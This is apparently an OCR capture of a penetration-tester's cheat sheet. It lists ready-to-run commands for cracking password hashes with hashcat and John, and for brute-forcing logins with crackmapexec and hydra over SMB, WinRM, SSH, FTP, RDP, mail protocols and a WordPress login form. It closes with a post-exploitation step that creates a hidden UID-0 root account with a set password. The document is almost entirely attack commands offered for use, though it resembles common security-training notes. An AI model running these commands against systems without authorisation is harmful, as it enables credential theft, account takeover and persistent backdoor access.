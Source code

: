     Hashcat:
       • Find mode in hashcat
           ▪ hashcat --example hashes
       • hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

    John:
       •  john files --wordlist=/usr/share/wordlists/rockyou.txt


PSSWD Mutation
    Hashcat
       • hashcat -m 0 bfield.hash  /usr/share/wordlists/rockyou.txt -r rules


PSSWD BruteForcing
    Crackmapexec
       • Enumerate password policy
             ▪ crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --pass-pol
       • Bruteforce SMB
             ▪ crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst
       • Bruteforce winrm
             ▪ crackmapexec winrm 10.10.10.172 -u /root/users.lst -p /root/passwords.lst
             
    Hydra
       •  Hydra brute force against SNMP
             ▪ hydra -P password-file.txt -v $ip snmp

       •  Hydra FTP known user and rockyou password list
             ▪ hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp

       •  Hydra SSH using list of users and passwords
             ▪ hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

       •  Hydra POP3 Brute Force
             ▪ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

       •  Hydra SMTP Brute Force
             ▪ hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

       •  Hydra attack http get 401 login with a dictionary
             ▪ hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

       •  Hydra attack Windows Remote Desktop with rockyou
             ▪ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

       •  Hydra brute force a Wordpress admin login
             ▪ hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'


-------------------------------------------------------------------------------------------------------------------------------------


POST EXPLOITATION LINUX

    Add user with root privs:
       •  sudo useradd -ou 0 -g 0 john
       •  sudo passwd John@1234
